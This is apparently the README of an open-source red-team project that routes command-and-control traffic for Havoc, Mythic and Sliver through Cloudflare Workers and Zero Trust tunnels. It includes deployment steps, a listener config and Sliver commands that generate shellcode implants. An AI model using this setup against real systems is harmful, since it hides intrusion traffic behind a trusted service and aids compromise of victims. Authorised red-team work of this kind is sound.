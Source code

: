# Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.

![good old diagram](assets/cf-redirector-v2.png)

Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## V2 update (April 2024)

- Since my documentation was not that good, I made a little cli tool to facilate usage.
- Base on a configuration file to make it easier to apply your config.
- [timesafecheck](https://developers.cloudflare.com/workers/examples/protect-against-timing-attacks).
- Generate multiple router URLs with the `wrangler --env` feature (worker1, worker2, etc.).
- JWT (auth worker) with [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
  - JWT setup is overkill for this project, but wanted to try it out and learn new things.
- Support multiple C2 listeners.
- I made a branch `v1` with the old version.

note: Redirector worker and Auth worker does not have any public URL (only accessbile with worker service binding).

Todo:

- ~~add custom domain routing.~~
- ? (suggestions are welcome)

## Things you will need

- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy.
  - To make sure wrangler cli is setup correctly: `wrangler whoami`
- A running C2 framework. Ex: [Havoc](https://github.com/HavocFramework/Havoc).
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.

## Usage

![usage](assets/usagecli.png)

## Setup

![accountid_and_subdomain](assets/14.jpg)

```bash
# clone the repo and cd into it

# copy the configuration file
cp config_demo.json config.json
# modify the config.json

chmod +x cli.sh
# run the cli with -f when its your first time deploying
./cli.sh -f
# you should see the workers in your Cloudflare dashboard
```

Config file example:

```json
{
  "cf_account_id": "<account_id>",
  "cf_account_dev_subdomain": "<subdomain>.workers.dev",
  "secrets": {
    "service_cf_id": "<service_cf_id>",
    "service_cf_secret": "<service_cf_secret>",
    "jwt_secret": "your_secret_key",
    "router_header": "X-Header",
    "router_header_secret": "secret_value",
    "auth_header": "X-Header-Gate",
    "auth_header_secret": "secret_value_auth_gate",
    "id_header": "X-ID"
  },
  "router_route": [
    {
      "id": 1,
      "name": "router1",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "router1.example.com"
    },
    {
      "id": 2,
      "name": "router2",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "router2.example.com"
    },
    {
      "id": 3,
      "name": "router3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "router3.example.com"
    }
  ],
  "listeners": [
    {
      "id": 1,
      "name": "havoc",
      "address": "https://havoc-listener.example.com/",
      "is_default": "false",
      "port": "443",
      "bind_port": "8443"
    },
    {
      "id": 2,
      "name": "mythic",
      "address": "https://mythic-listener.example.com/",
      "is_default": "true",
      "port": "443",
      "bind_port": "9443"
    },
    {
      "id": 3,
      "name": "sliver",
      "address": "https://sliver-listener.example.com/",
      "is_default": "false",
      "port": "443",
      "bind_port": "6443"
    }
  ]
}
```

Note: `id` value is what will be used in for the `X-ID` header. Taking the example above, mythic listener profile will need to have `X-ID: 2` in the header.

### Custom Domains

Using custom domain is optional (`router_route` default configuration doesnt need to be change). You can use the default `workers.dev` subdomain, which is set by the `cf_account_dev_subdomain` key in the config file. Just make sure to set `use_dev_subdomain` to true. So yes, if you set `use_dev_subdomain` to true, you don't need to do care about the `pattern` config.

If you want to use custom domain, here is an example:

```json
...
  "router_route": [
    {
      "id": 1,
      "name": "router1",
      "use_custom_domain": "true",
      "use_dev_subdomain": "false",
      "pattern": "router1.mycustomdomain.com"
    },
    {
      "id": 2,
      "name": "router2",
      "use_custom_domain": "true",
      "use_dev_subdomain": "true",
      "pattern": "router2.anothercustomdomain.com"
    },
    {
      "id": 3,
      "name": "router3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "router3.example.com"
    }
  ],
...
```

This configuration will create 4 URLs (Hosts for your C2 profile):

- `router1.mycustomdomain.com`
- `router2.anothercustomdomain.com`
- `router2.<subdomain>.workers.dev`
- `router3.<subdomain>.workers.dev`

note: domain(s) must be in the same Cloudflare account.

## Not sure about the Zero Trust part ?

First time setting up a cloudflare tunnel? Take a look at this [article](https://www.redteaming.org/cftunnels.html) provide by [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt).

I also took some screenshots that are in the assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. **Create application (self-hosted) rules to protect your listener** (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## After deployment

- Start C2 server with your modified profile.

```bash
# modify profiles/havoc/demo-profile.yaotl
./havoc server --profile profiles/cf-profile.yaotl -v

# modify ~/.sliver/configs/http-c2.json (add header)
profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder. You can also use the `wrangler tail` command.

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [Toby Schneider](https://github.com/tsndr) for [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
- [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt) for the [article](https://www.redteaming.org/cftunnels.html) on Cloudflare tunnel.
- [Yack](https://yack.one).
